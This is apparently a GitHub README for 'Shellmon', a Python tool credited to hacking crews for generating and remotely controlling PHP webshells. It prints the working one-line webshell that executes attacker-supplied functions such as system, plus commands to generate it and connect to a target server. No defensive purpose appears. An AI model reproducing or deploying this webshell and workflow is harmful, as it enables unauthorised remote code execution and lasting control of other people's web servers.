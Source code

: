 <div align="center">

![ShellMon](img/logo.png)
![](https://img.shields.io/badge/Version-1.0.0-red)
![](https://img.shields.io/badge/License-MIT-green)
![](https://img.shields.io/badge/Python-3.10.0-blue)

> An Simple PHP Webshell Manager

</div>

## Description
Shellmon is a tool used to create and control a webshell remotely, created using the Python3 programming language using the "Object Oriented" method. The resulting webshell has been coded very simply and has a size of no more than 80 bytes. 
It provides an interactive shell in your terminal that makes it easy for you to create or control a webshell.

## Instalation
The installation process of this tool is quite easy, it does not use an external python modules that makes your computer's storage space a bit filled.

Please download this repository or you can also clone the repository using git by typing the following command in your terminal: 
```bash
git clone https://github.com/22XploiterCrew-Team/Shellmon
```
after that move the pre-work directory in your terminal to the ***shellmon*** directory.

## Usage
Simple interactive shell commands make it easy to run this tool.

type `python shellmon.py` in the terminal screen to display the help command.
![help](img/help.jpg)

If you want to generate a new webshell, you just need to type this command in the terminal
```bash
python shellmon.py -p yourpassword --generate
```
webshell files will be automatically saved in your current pre-employment directory, filenames will be auto-generated with number format 0-9 and use .php extension.

Content webshell:
```php
<?=(isset($_GET[0])&&$_GET[0]=="yourpassword"?:die("0"))&&@$_POST[0]($_POST[1]);
```
actually the above code can still be made simpler like this
```php
<?=($_GET[0]=="yourpassword"?:die("0"))&&@$_POST[0]($_POST[1]);
```
but I'm worried that the server will send the status code ***500 Internal Server Error***, because this tool also checks the response code from the server and only receives the response code ***200 OK***.


Furthermore, if you want to connect your uploaded webshell to the target server, you just need to type this command on the terminal screen
```bash
python shellmon.py -u https://target.com -p yourpassword
```
display if successfully connected
![result](img/res2.png)
you can also customize PHP shell functions by using the `--func [function]` argument, by default the function used is ***system***.

#### Support
- 22XploiterCrew
- Banyumas Cyber Team
- Jombang BlackHat
